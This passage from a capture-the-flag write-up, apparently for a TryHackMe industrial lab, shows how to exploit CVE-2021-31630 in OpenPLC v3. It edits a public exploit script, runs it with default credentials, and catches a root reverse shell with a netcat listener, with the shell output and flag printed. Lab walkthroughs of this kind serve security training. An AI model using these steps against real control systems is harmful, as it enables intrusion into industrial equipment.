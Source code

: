 ```python

"""
```

and comment lines 188,189 and 190 to prevent cleaning up<br/>

```python
    # sleep(1)
    # print('[!] Cleaning up...')
    # cleanup(sess_obj)
```

and change this on line 114:<br/>

```python
     payload = {
        "hardware_layer": (None, b"python_on_linux"),
        "custom_layer_code": (None, modded_template),
    }   
```

then run:<br/>

```bash
python3 cve_2021_31630.py \
  -lh <YOUR_IP_IN_SAME_SUB_WITH_THE_MACHINE> -lp 4444 \
  -u openplc -p openplc \
  http://10.10.222.93:8080/
```

open a listener on your machine:<br/>

```bash
nc -lvnp 4444
```

now enter the platfor with the credentials:<br/>
username: `openplc`<br/>
password: `openplc`<br/>
and on hardware section, change hardware layer from linux to python on linux (PSM) and click launch program<br/>
<img src="/kaboom-write-up-thm-industrial/launch-program.png" alt="launch-program"/>

then start the PLC again and you will get your reverse shell<br/>

```bash
➜  ~ nc -lvnp 4444
Connection from 10.10.219.182:41966
bash: cannot set terminal process group (1014): Inappropriate ioctl for device
bash: no job control in this shell
root@tryhackme:/opt/OpenPLC_v3/webserver#
```

now you can get the flag from the file /home/ubuntu/flag.txt<br/>

```bash
cat /home/ubuntu/flag.txt
FLAG{cooling_bypass_exploded}
```

<img src="/kaboom-write-up-thm-industrial/flag-part2.png" alt="flag-part2"/>
> 2nd flag: <code>FLAG{cooling_bypass_exploded}</code>
